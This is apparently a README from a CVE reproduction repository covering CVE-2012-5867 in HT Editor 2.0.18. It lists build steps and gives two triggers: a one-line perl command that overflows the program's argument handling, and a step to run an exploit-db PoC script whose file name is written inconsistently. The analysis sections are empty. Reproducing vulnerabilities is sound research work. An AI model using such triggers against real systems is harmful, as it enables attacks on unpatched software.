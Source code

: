 # CVE-2012-5867

## Experiment Environment

Ubuntu 14.04 LTS

## INSTALL & Configuration

```sh
wget https://github.com/mudongliang/source-packages/raw/master/CVE-2012-5867/ht-2.0.18.tar.gz
tar -xvf ht-2.0.18.tar.gz
cd ht-2.0.18
./configure
make
```

## Problems in Installation & Configuration


## How to trigger vulnerability

### Method 1

```sh
$ ./ht $(perl -e 'print "A"x5000')
```

### Method 2

1. 首先，将库中的poc - 17803.pl 拷贝到对应的软件根目录下
2. 然后，执行这个 perl 文件

```sh
$ perl 17083.pl
```

## Vulnerability Details & Patch

### Root Cause

### Stack Trace

### Patch

## References

[1] [HT-Editor Source Code](https://www.exploit-db.com/apps/ce7698b80035bce297374b338045dadd-ht-2.0.18.tar.gz)
